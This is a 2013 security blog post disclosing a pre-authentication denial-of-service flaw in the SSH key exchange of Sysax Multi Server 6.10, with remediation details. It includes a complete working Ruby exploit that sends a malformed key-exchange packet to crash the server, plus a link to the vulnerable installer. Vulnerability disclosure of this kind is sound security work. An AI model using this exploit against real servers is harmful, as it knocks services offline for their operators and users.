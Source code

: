 ```yaml
---
title: "Sysax Multi Server 6.10 SSH DoS"
date: "2013-04-08T08:27:00-04:00"
comments: true
highlight: "true"
categories:
 - ssh
 - DoS
 - windows
 - sysax
 - exploit
 - metasploit
---
```


I was recently fuzzing a bunch of SSH servers, hoping to find some remote code execution in a non-mainstream server. I ended up finding no code execution in the several that I tried, but I did find one pre-auth denial of service in Syax Multi Server 6.10.

<!-- more -->

## Try this at home!

The vulnerable version can be downloaded [here](https://www.dropbox.com/s/d6js8u6i4eioa1j/sysaxserv_setup_6.10.msi) for anyone that would like to duplicate the DoS conditions.

## Understanding the Key Exchange

I found that during the key exchange, where the SSH client and SSH server negotiate which ciphers to use, if you messed up just a single specific byte, the server would crash. I started reading through the [RFC](https://tools.ietf.org/html/rfc4253#section-7.1) for SSH keyexchange, and found the key exchange to be mostly ASCII.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex.png" %}}


I started playing with the byte that caused the crash, and it seemed that it was some sort of control character, or separator. I'm still unsure. However, changing it would cause a crash every time.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex2.png" %}}

I wasn't able to figure out any way to get remote code execution, although someone smarter than me, may be able to do it. For now, I'll settle with a DoS exploit.

## The exploit

```
#!/usr/bin/env ruby
# Sysax Multi Server 6.10 SSH DoS
# Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/sysax-multi-server-610-ssh-dos.html

require 'socket'

unless ARGV.length == 2
  puts "Usage: ruby #{$0} [host] [port]\n"
  exit
end

packet = [0x00, 0x00, 0x03, 0x14, 0x08, 0x14, 0xff, 0x9f,
  0xde, 0x5d, 0x5f, 0xb3, 0x07, 0x8f, 0x49, 0xa7,
  0x79, 0x6a, 0x03, 0x3d, 0xaf, 0x55, 0x00, 0x00,
  0x00, 0x7e, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x2d, 0x65,
  0x78, 0x63, 0x68, 0x61, 0x6e, 0x67, 0x65, 0x2d,
  0x73, 0x68, 0x61, 0x32, 0x35, 0x36, 0x2c, 0x64,
  0x69, 0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65,
  0x6c, 0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72,
  0x6f, 0x75, 0x70, 0x2d, 0x65, 0x78, 0x63, 0x68,
  0x61, 0x6e, 0x67, 0x65, 0x2d, 0x73, 0x68, 0x61,
  0x31, 0x2c, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x31, 0x34,
  0x2d, 0x73, 0x68, 0x61, 0x31, 0x2c, 0x64, 0x69,
  0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65, 0x6c,
  0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72, 0x6f,
  0x75, 0x70, 0x31, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x00, 0x00, 0x00, 0x0f, 0x73, 0x73, 0x68, 0x2d,
  0x72, 0x73, 0x61, 0x2c, 0x73, 0x73, 0x68, 0x2d,
  0x64, 0x73, 0x73, 0x00, 0x00, 0x00, 0x9d, 0x61,
  0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63, 0x62,
  0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77, 0x66,
  0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63, 0x66,
  0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c, 0x61,
  0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32, 0x35,
  0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f, 0x75,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39, 0x32,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65, 0x73,
  0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65, 0x6c,
  0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79, 0x73,
  0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69, 0x75,
  0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73, 0x31,
  0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c, 0x61,
  0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63, 0x74,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35, 0x36,
  0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00, 0x9d,
  0x61, 0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77,
  0x66, 0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63,
  0x66, 0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c,
  0x61, 0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32,
  0x35, 0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f,
  0x75, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39,
  0x32, 0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65,
  0x73, 0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65,
  0x6c, 0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79,
  0x73, 0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69,
  0x75, 0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73,
  0x31, 0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c,
  0x61, 0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63,
  0x74, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35,
  0x36, 0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00,
  0x69, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64,
  0x35, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2c, 0x75, 0x6d, 0x61, 0x63,
  0x2d, 0x36, 0x34, 0x40, 0x6f, 0x70, 0x65, 0x6e,
  0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c,
  0x68, 0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70,
  0x65, 0x6d, 0x64, 0x31, 0x36, 0x30, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70, 0x65,
  0x6d, 0x64, 0x31, 0x36, 0x30, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2d, 0x39, 0x36, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2d,
  0x39, 0x36, 0x00, 0x00, 0x00, 0x69, 0x68, 0x6d,
  0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2c, 0x75, 0x6d, 0x61, 0x63, 0x2d, 0x36, 0x34,
  0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68,
  0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68, 0x6d, 0x61,
  0x63, 0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64,
  0x31, 0x36, 0x30, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64, 0x31,
  0x36, 0x30, 0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73,
  0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2d, 0x39, 0x36, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x6d, 0x64, 0x35, 0x2d, 0x39, 0x36, 0x00,
  #3rd byte in this next line causes crash
  0x00, 0x00, 0x28, 0x7a, 0x6c, 0x69, 0x62, 0x40,
  0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e,
  0x63, 0x6f, 0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62,
  0x2c, 0x6e, 0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00,
  0x1a, 0x7a, 0x6c, 0x69, 0x62, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62, 0x2c, 0x6e,
  0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00].pack("C*")

host = ARGV[0]
port = ARGV[1]

sock = TCPSocket.open(host, port)

banner = sock.gets()
puts banner

sock.puts("SSH-2.0-OpenSSH_5.1p1 Debian-5ubuntu1\r\n")
sock.puts(packet)
resp = sock.gets()

sock.close()
```

## Remediation

I contacted the developers of Sysax Multi Server on March 18 2013 and April 6 2013. They were able to release a new version (6.11) which is no longer vulnerable to this bug. If you're running Sysax Multi Server with SSH (off by default, but plenty of users on [ShodanHQ](http://www.shodanhq.com/search?q=sysax+port%3A22)), I would highly recommend updating to 6.11, available [here](http://www.sysax.com/download.htm#sysaxserv).

## Update:

It looks like the Metasploit module I wrote for this has been merged! You can view it [here](https://github.com/rapid7/metasploit-framework/blob/225342ce8f34b1af49e498c0cc6fa92c127187e8/modules/auxiliary/dos/windows/ssh/sysax_sshd_kexchange.rb)
